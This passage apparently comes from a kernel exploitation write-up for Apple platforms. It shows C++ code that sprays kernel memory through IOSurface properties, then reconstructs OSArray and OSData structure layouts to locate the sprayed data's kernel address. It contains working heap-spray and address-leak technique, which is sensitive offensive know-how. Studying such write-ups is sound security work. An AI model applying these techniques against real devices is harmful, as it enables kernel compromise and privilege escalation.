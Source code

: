 ```cpp

    void *spray_buffer = ((uint8_t *) cmdbuf.data) + pagesize;

    uint32_t kfree_buffer_key = transpose(property_index++);
    memset(spray_buffer, 0x42, 8 * pagesize); // we'll need later in clean up to check if memory is still allocated
    ret = IOSurface_kmem_alloc_spray(spray_buffer, 8 * pagesize, 80 MB / (8 * pagesize), kfree_buffer_key);
    if (ret) {
        printf("[-] Failed to spray\n");
        goto err;
    }
```

![image.png](pics/image%207.png)

Similarly, how can we determine address where the data loaded via IOSurface is located?

It’s not much different from how we obtained the address in step 1.
The field `dict->items[i].value` can point to various types, such as an OSDictionary or an OSArray.

In this case, since the code specifies **`kOSSerializeArray` along with the count** (as in `args->xml[i++] = kOSSerializeArray | count;`), we should examine OSArray structure.

```cpp
00000000 struct __cppobj OSArray : OSCollection // sizeof=0x28
00000000 {
00000014     unsigned int count;
00000018     unsigned int capacity;
0000001C     unsigned int capacityIncrement;
00000020     OSArray::ArrayPtrType *array;
00000028 };

00000008 typedef const OSMetaClassBase *OSArray::ArrayPtrType;

00000000 struct __cppobj OSData : OSObject // sizeof=0x28
00000000 {
0000000C     unsigned int length;
00000010     unsigned int capacity;
00000014     unsigned int capacityIncrement;
00000018     void *data;
00000020     OSData::ExpansionData *reserved;
00000028 };
```